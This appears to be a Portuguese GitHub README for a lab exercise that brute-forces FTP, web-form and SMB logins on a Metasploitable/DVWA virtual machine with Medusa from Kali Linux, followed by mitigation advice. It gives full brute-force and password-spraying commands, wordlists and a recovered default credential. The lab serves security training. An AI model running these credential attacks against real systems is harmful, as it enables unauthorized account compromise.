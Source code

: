 # Projeto: Simulação de Ataques de Força Bruta com Medusa (Kali + Metasploitable/DVWA)

## 1. Objetivo
- Compreender ataques de força bruta em diferentes serviços (FTP, Web, SMB);
- Utilizar o Kali Linux e o Medusa para auditoria de segurança em ambiente controlado;
- Documentar processos técnicos de forma clara e estruturada;
- Reconhecer vulnerabilidades comuns e propor medidas de mitigação;
- Utilizar o GitHub como portfólio técnico para compartilhar documentação e evidências.

## 2. Ambiente de Teste
- Host: VirtualBox (Host-Only network)
- VMs:
  - Kali Linux (192.168.56.102)
  - Metasploitable 2: (192.168.56.101)
  - DVWA em /var/www/html/dvwa

## 3. Ferramentas
- Medusa, enum4linux, smbclient, curl, netcat, wireshark

## 4. Wordlists usadas
- users.txt
- passwords.txt

## 5. Comandos Executados
### Criação de Wordlists
`echo -e "user\nmsfadmin\nroot\nadmin" > users.txt`
`echo -e "123456\npassword\nmsfadmin\nqwerty" > passwords.txt`
### FTP
`medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 4 -v 4 | tee medusa_ftp.log`
- Legenda de flags:
  - -h alvo
  - -U arquivo de usuários (linha por linha)
  - -P arquivo de senhas
  - -M módulo (ftp, smbnt, http, ssh, etc.)
  - -t 4 threads (execuções simultâneas)
  - -v 4 verbose (detalhe de output no terminal)

tee medusa_ftp.log para salvar saída

### HTTP (template)
`medusa -h 192.168.56.101 -M http_form -m FORM:... -U users.txt -P passwords.txt -t 6 -v 4 | tee medusa_http.log`

### SMB / Password Spraying
`enum4linux -a 192.168.56.101`
`medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M smbnt -t 4 -v 4 | tee medusa_smb.log`

## 6. Resultados e validação
- Credenciais descobertas:
  - user: msfadmin / password: msfadmin (exemplo)
- Comandos de validação:
  - `ftp 192.168.56.101`, `smbclient -L //192.168.56.101 -U msfadmin`

## 7. Recomendações de Mitigação
- Lockout / throttle: bloqueio após N tentativas ou backoff exponencial.
- MFA para acessos críticos (FTP, aplicações web).
- Rate limiting em endpoints de login e WAF.
- Senha forte + política de expiração; no geral tokens e senhas únicas.
- Monitoring / SIEM: alertas para múltiplas falhas de autenticação, geolocalização anômala.
- Fail2ban em serviços (FTP/SSH/web) para bloquear IPs após muitas falhas.
- Desativar serviços não necessários (ex.: FTP se não for usado)
- Segurança SMB: aplicar patches, desabilitar SMBv1, políticas de bloqueio.
- Proteção CSRF / tokens em formulários (DVWA exemplo).
- Treinamento de usuários e pentests periódicos.
